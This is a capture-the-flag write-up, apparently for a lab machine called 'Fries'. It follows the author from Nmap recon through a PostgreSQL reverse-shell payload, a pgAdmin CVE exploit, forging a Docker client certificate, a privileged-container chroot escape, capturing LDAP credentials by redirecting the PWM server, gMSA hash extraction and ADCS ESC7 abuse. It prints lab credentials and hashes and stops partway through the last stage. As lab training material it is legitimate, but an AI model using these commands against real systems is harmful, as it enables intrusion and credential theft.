```
Scope:
10.10.11.96

Creds:
d.cooper@fries.htb
D4LE11maan!!
```

# Recon
## Nmap

```bash
sudo nmap -sC -sV -sT -p- -vvvv -T5 --min-rate=5000 -Pn fries.htb

PORT      STATE SERVICE       REASON  VERSION
22/tcp    open  ssh           syn-ack OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
53/tcp    open  domain        syn-ack Simple DNS Plus
80/tcp    open  http          syn-ack nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD
|_http-title: Welcome to Fries - Fries Restaurant
|_http-server-header: nginx/1.18.0 (Ubuntu)
88/tcp    open  kerberos-sec  syn-ack Microsoft Windows Kerberos (server time: 2025-11-23 02:02:57Z)
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: fries.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-11-23T02:04:36+00:00; +1h59m20s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC01.fries.htb, DNS:fries.htb, DNS:FRIES
| Issuer: commonName=fries-DC01-CA/domainComponent=fries
443/tcp   open  ssl/http      syn-ack nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| tls-alpn: 
|_  http/1.1
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_ssl-date: TLS randomness does not represent time
|_http-favicon: Unknown favicon MD5: F588322AAF157D82BB030AF1EFFD8CF9
|_http-title: Site doesnt have a title (text/html;charset=ISO-8859-1).
| ssl-cert: Subject: commonName=pwm.fries.htb/organizationName=Fries Foods LTD/stateOrProvinceName=Madrid/countryName=SP/organizationalUnitName=PWM Configuration/emailAddress=web@fries.htb/localityName=Madrid
| Issuer: commonName=pwm.fries.htb/organizationName=Fries Foods LTD/stateOrProvinceName=Madrid/countryName=SP/organizationalUnitName=PWM Configuration/emailAddress=web@fries.htb/localityName=Madrid
445/tcp   open  microsoft-ds? syn-ack
464/tcp   open  kpasswd5?     syn-ack
593/tcp   open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      syn-ack Microsoft Windows Active Directory LDAP (Domain: fries.htb0., Site: Default-First-Site-Name)
2179/tcp  open  vmrdp?        syn-ack
3268/tcp  open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: fries.htb0., Site: Default-First-Site-Name)
3269/tcp  open  ssl/ldap      syn-ack Microsoft Windows Active Directory LDAP (Domain: fries.htb0., Site: Default-First-Site-Name)
5985/tcp  open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack .NET Message Framing
49666/tcp open  msrpc         syn-ack Microsoft Windows RPC
49685/tcp open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
49686/tcp open  msrpc         syn-ack Microsoft Windows RPC
49688/tcp open  msrpc         syn-ack Microsoft Windows RPC
49689/tcp open  msrpc         syn-ack Microsoft Windows RPC
49913/tcp open  msrpc         syn-ack Microsoft Windows RPC
49946/tcp open  msrpc         syn-ack Microsoft Windows RPC
Service Info: Host: DC01; OSs: Linux, Windows; CPE: cpe:/o:linux:linux_kernel, cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-11-23T02:03:54
|_  start_date: N/A
|_clock-skew: mean: 1h59m19s, deviation: 1s, median: 1h59m19s
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 46245/tcp): CLEAN (Timeout)
|   Check 2 (port 47430/tcp): CLEAN (Timeout)
|   Check 3 (port 23943/udp): CLEAN (Timeout)
|   Check 4 (port 21385/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
```

## 443/TCP - HTTPS



When trying to log in using the provided `ldap` creds we get the following message:



We notice a new username *svc_infra*.

I also found that the Password Manager is an open-source project called `pwm`:





It seems that the latest version from february 2025 is installed.

Other than that there doesn't seem to be more going on for us.

## 80/TCP - HTTP

Over here I found a static website with nothing else really. 



### code.fries.htb

I decided to use `ffuf` to enumerate vhosts:







Here I was able to log in with the provided creds:





I headed over to the repo and started analysing it.



Inside the initial commit I found the credentials for `postgresql`:



```
root
PsqLR00tpaSS11
```

And perhaps the secret key could be reused somewhere:

```
y0st528wn1idjk3b9a
```

I then found the following inside the `README.md` 



Another vhost:

```
db-mgmt05.fries.htb
```



### db-mgmt05.fries.htb

I headed over to the db instance:



Here again I logged in with the creds for *dale*:



When trying to connect to the server we're prompted the following:



We enter the previously found root password here and get access:



I expanded it and checked the `gitea` database:



Here I right clicked on the `user` table to view all the rows:





I tried cracking the *Administrator* password but this did not work.

# Docker Foothold - RABBITHOLE
## RCE via PostGreSQL UI

I tried out some queries and noticed I had file read



And even file write!



I then tried to see whether I had command execution:



Since all of the above worked I went ahead and tested a reverse shell payload.

```sql
CREATE TABLE cmd_out3(line text);
COPY cmd_out3 FROM PROGRAM '/bin/bash -c "bash -i >& /dev/tcp/10.10.14.42/80 0>&1"';
SELECT * FROM cmd_out3;
```





I now finally had a shell inside the Linux docker container.

###I Living Off The Land ( LOTL )

I tried to copy over some files using `wget` or `curl` but none were available:



Instead I looked on [GTFObins](https://gtfobins.github.io/gtfobins/bash/) for some **Living Off The Land (LOTL)** commands:



I used it to transfer various files:

```bash
export RHOST=10.10.14.126
export RPORT=8000
export LFILE=<FILENAME HERE>
bash -c '{ echo -ne "GET /$LFILE HTTP/1.0\r\nhost: $RHOST\r\n\r\n" 1>&3; cat 0<&3; } \
    3<>/dev/tcp/$RHOST/$RPORT \
    | { while read -r; do [ "$REPLY" = "$(echo -ne "\r")" ] && break; done; cat; } > $LFILE'
```



## Enumeration
### linpeas

I ran `linpeas` in order to enumerate the environment and find out what I could do here.



Some findings included:


Unfortunately other than that I didn't find anything useful so instead booted up `ligolo` in order to scan the network.

# Linux Foothold
## CVE-2025-2945

I started looking further and realized I landed inside a *rabbithole*. Instead I searched up the version of the `pgadmin` instance and found a CVE for it:


But the above PoC didnt work since it didn't work with kerberos auth. Instead I used the `metasploit` module it's based upon:



Once I put down the following options I was able to run it successfully:


I started enumerating the directory:



From here I enumerated the `env` variables where I found a cleartext password:



```
Friesf00Ds2025!!
```

Next up I tried spraying this password against found users until I found one that matched:


## SSH Access

Using these creds I logged in:


### Mounting NFS Share

I used `ligolo` to port forward so I could access the `nfs` service:


Once I had the port forward set up I created the drive I would mount the share

```bash
sudo mkdir ./mount
sudo mount -t nfs -o ro,soft,timeo=10 240.0.0.1:/srv/web.fries.htb/certs ./mount
```


I could still not access the mount though becaues I did not have the proper GUID:



In order to get access I had to create a "dummy" account with this GUID.

```bash
sudo useradd tester
sudo nano /etc/passwd

# Add the following GUID
tester:x:1001:59605603::/home/tester:/bin/sh
```


Now we should be able to access the mounted share.

```bash
sudo -u tester cp -r mount /tmp/mount
sudo chown kali /tmp/mount
sudo chown kali /tmp/mount/*
sudo umount ./mount
```




### Crafting certificate

For the following steps I'll craft a certificate where `CN=root`:

```bash
cat > root.cnf
[ req ]
distinguished_name = req_distinguished_name
prompt = no

[ req_distinguished_name ]
CN = root
```

Next I will cuse the following commands:

```bash
openssl genrsa -out key.pem 2048
openssl req -new -key key.pem -out root.csr -config root.cnf
```



Now we create the `cert.pem` certificate:

```bash
openssl x509 -req -in root.csr \
  -CA ca.pem -CAkey ca-key.pem -CAcreateserial \
  -out cert.pem -days 365 -sha256
```

### Docker

We will now have to use the following commands to spin up the docker container:

```bash
docker context create fries \
  --docker host=tcp://240.0.0.1:2376 \ 
  --docker ca=/home/kali/Fries/ca.pem \
  --docker cert=/home/kali/Fries/cert.pem \
  --docker key=/home/kali/Fries/key.pem \
  --docker skip-tls-verify=true
  
  
docker context use fries
```


We can check it out:



Looks good!

# Linux Privilege Escalation

We can simply use the following command to to give ourselves a *root* shell on the system:

```bash
docker run -it --rm --privileged --net=host --pid=host -v /:/mnt 616e340baeac bash -c "chroot /mnt /bin/bash || chroot /mnt /bin/sh"
```


### user.txt

Finally we're able to grab the `user.txt` flag:



## Post-Exploitation
### PWM Config

During post-exploitation I stumbled on this hash which I then cracked:





```
rockon!
```

This password can then be used to access the `pwm` Configuration Manager:





I clicked on **Download Configuration**:



This was the same exact config however. Instead I headed over to the **Configuration Editor** where I headed over to **LDAP** -> **LDAP Directories** -> **default** -> **Connection**:



Here I changed the **LDAP URLs** to my own URL:



And clicked **Test LDAP Profile**. I then captured the cleartext password using `responder`:



```
svc_infra
m6tneOMAh5p0wQ0d
```

# DC01 Enumeration
## BloodHound

Now that I had a valid set of creds I checked their validity via NTLM logon:



This meant I didn't need `kerberos` login, let's use `bloodhound` to enumerate the system:



I started up `bloodhound` and went to work.



### ReadGMSAPassword

Here I noticed the following:



This is pretty straightforward to exploit using `nxc`:

```bash
nxc ldap fries.htb -u usernames.txt -p passwords.txt --gmsa
```



And we get the NTLM hash for *gMSA_CA_prod$*.

```
fc20b3d3ec179c5339ca59fbefc18f4a
```

I checked the account information where I found the following:



# DC01 Privilege Escalation
## ADCS - ESC7

I requested a TGT for the found user:

```bash
impacket-getTGT 'fries.htb/gMSA_CA_prod$' -hashes :fc20b3d3ec179c5339ca59fbefc18f4a -dc-ip 10.10.11.96
```



I then used `certipy-ad` to enumerate the ADCS vulnerabilities:

```bash
certipy-ad find -k -dc-ip 10.10.11.96 -target DC01.fries.htb -stdout -vulnerable
```



It looks like the target is vulnerable to **ESC7**.

### Exploitation

First of all we'll have to modify the `/etc/krb5.conf` file:





To exploit this we can use the following commands:

```bash
certipy-ad ca \
  -ca fries-DC01-CA \
  -add-officer 'gMSA_CA_prod$' \
  -dc-ip 10.10.11.96 \
  -dc-host DC01.fries.htb \
  -target DC01.fries.htb \
  -k
```



We will now have to update the templates by adding the `SubCA` template: 

```bash
certipy-ad template \                                                                                              
  -template SubCA \
  -save-configuration subca.json \
  -dc-ip 10.10.11.96 \
  -dc-host DC01.fries.htb \
  -target DC01.fries.htb \
  -k
```



---